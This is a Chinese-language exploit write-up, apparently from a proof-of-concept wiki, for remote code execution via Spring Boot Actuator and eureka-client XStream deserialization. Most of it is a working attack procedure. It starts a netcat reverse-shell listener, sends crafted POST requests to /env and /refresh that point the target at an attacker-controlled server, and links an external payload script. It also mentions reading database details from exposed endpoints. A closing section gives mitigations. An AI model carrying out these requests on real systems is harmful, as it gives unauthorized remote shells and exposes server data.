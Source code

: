 # eureka xstream deserialization RCE

## 利用条件：
 - 可以 POST 请求目标网站的 /env 接口设置属性
 - 可以 POST 请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starter-actuator 依赖）
 - 目标使用的 eureka-client < 1.8.7（通常包含在 spring-cloud-starter-netflix-eureka-client 依赖中）
 - 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

## 利用方法：

#### 访问`/env`，查找存在`eureka-client`依赖
#### 架设响应恶意 XStream payload 的网站
使用 python3 在自己控制的服务器上运行[脚本](https://github.com/7estUser/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/Actuator(eureka%20xstream%20deserialization%20RCE)/file/example.py)，并根据实际情况修改脚本中反弹shell的 ip 地址和 端口号。
#### nc 监听反弹 shell 的端口
`nc -lvnp 8446`
#### 设置 eureka.client.serviceUrl.defaultZone 属性
spring 1.x
```bash
POST /env
Host: x.x.x.x
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://<yourvpsip>:2222/example
```
spring 2.x
```bash
POST /actuator/env
Host: x.x.x.x
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://<yourvpsip>:2222/example"}
```
![](https://github.com/7estUser/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/Actuator/img/request.png)

#### 刷新配置
spring 1.x
```bash
POST /refresh
Host: x.x.x.x
Content-Type: application/x-www-form-urlencoded
```
spring 2.x
```bash
POST /actuator/refresh
Host: x.x.x.x
Content-Type: application/json
```
![](https://github.com/7estUser/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/Actuator/img/refreh.png)
#### 服务器接收到shell，并且能成功执行命令

> ⚠️ 同时访问/env端点获取全部环境属性，由于 actuator 会监控站点 mysql、mangodb 之类的数据库服务，所以通过监控信息有时可以展示mysql、mangodb 数据库信息.

## 漏洞原理：
1. eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
2. refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
3. 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞

## 漏洞分析：
 - Actuator是Spring Boot提供的服务监控和管理中间件，默认配置会出现接口未授权访问，部分接口会泄露网站流量信息和内存信息等，使用Jolokia库特性甚至可以远程执行任意代码，获取服务器权限
 - XStream：XStream是Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。
 - /env端点配置不当造成RCE

## 漏洞修复
### 一 禁用所有接口：
`endpoints.enabled = false`

### 二 pom.xml文件引入spring-boot-starter-security依赖：
```bash
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-security</artifactId>
</dependency>
```

### 三 开启security功能，配置访问权限验证，类似配置如下：
```bash
management.port=8099
management.security.enabled=true
security.user.name=xxxxx
security.user.password=xxxxxx
```